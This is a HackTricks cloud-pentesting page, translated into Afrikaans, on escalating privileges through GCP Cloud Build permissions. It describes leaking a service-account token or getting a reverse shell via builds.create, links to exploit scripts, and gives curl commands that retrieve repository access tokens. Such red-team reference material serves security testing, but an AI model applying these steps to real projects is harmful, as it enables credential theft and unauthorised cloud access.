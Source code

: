 # GCP - Cloudbuild Privesc

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou hacking-truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## cloudbuild

Vir meer inligting oor Cloud Build, kyk:

{% content-ref url="../gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

Met hierdie toestemming kan jy **'n wolkbouopdrag indien**. Die cloudbuild-masjien sal standaard 'n token van die cloudbuild-diensrekening in sy lêersisteem hê: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. Jy kan egter **enige diensrekening binne die projek aandui** in die cloudbuild-konfigurasie.\
Daarom kan jy die masjien net laat uitlek na jou bediener die token of **'n omgekeerde dop in die masjien kry en die token self kry** (die lêer wat die token bevat, kan verander).

Jy kan die oorspronklike uitbuitingskrips [**hier op GitHub**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) vind (maar die plek waar dit die token vandaan neem, het nie vir my gewerk nie). Kyk dus na 'n skripsie om die [**skepping, uitbuiting en skoonmaak van 'n kwesbare omgewing outomaties te maak hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) en 'n Python-skripsie om 'n omgekeerde dop in die cloudbuild-masjien te kry en [**steel dit hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (in die kode kan jy vind hoe om ander diensrekeninge te spesifiseer)**.**

Vir 'n meer diepgaande verduideliking, besoek [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)

### `cloudbuild.builds.update`

**Moontlik** kan jy met hierdie toestemming 'n wolkbouopdrag **opdateer en net die diensrekening-token steel** soos dit gedoen is met die vorige toestemming (maar ongelukkig kon ek op die tydstip van hierdie skrywe nie 'n manier vind om daardie API te roep nie).

TODO

### `cloudbuild.repositories.accessReadToken`

Met hierdie toestemming kan die gebruiker die **leestoegangstoken** kry wat gebruik word om toegang tot die bewaarplek te verkry:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
{% endcode %}

### `cloudbuild.repositories.accessReadWriteToken`

Met hierdie toestemming kan die gebruiker die **lees- en skryftoekenning** kry wat gebruik word om toegang tot die argief te verkry:

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```

### `cloudbuild.connections.fetchLinkableRepositories`

Met hierdie toestemming kan jy **die herpositoriums kry waarop die verbinding toegang het:**

{% code overflow="wrap" %}
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{% endcode %}

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
